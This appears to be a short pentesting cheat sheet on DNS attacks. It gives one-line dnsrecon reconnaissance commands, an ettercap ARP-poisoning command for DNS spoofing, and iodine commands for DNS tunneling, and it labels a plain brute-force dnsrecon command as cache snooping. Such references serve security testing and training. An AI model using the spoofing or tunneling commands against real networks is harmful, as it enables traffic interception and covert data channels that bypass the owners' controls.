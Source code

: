 ### DNS Reverse and Subdomain Brute Force
``` bash
dnsrecon -r 127.0.0.0/24 -n <IP_DNS>
dnsrecon -r 127.0.1.0/24 -n <IP_DNS>
dnsrecon -r <IP_DNS>/24 -n <IP_DNS>
dnsrecon -d active.htb -a -n <IP_DNS>
```

### DNS Cache Snooping
> Technique used to query the DNS cache to gather information about past DNS records. 
```bash
dnsrecon -t std -d hackviser.com -D /usr/share/dnsrecon/namelist.txt
```

### DNS Spoofing
> DNS spoofing involves introducing corrupt Domain Name System data into a DNS resolver's cache, causing the name server to return an incorrect IP address, diverting traffic to the attacker's computer.
```bash
ettercap -T -q -M arp:remote /<gateway-ip>// /<target-ip>// -P dns_spoof
```

### DNS Tunneling
> DNS Tunneling leverages DNS queries and responses to encapsulate data of other programs or protocols in DNS queries and responses.
```bash
# Server side
iodined -f -c <tunnel-ip> <domain>

# Client side
iodine <dns-server-ip> <domain>
```
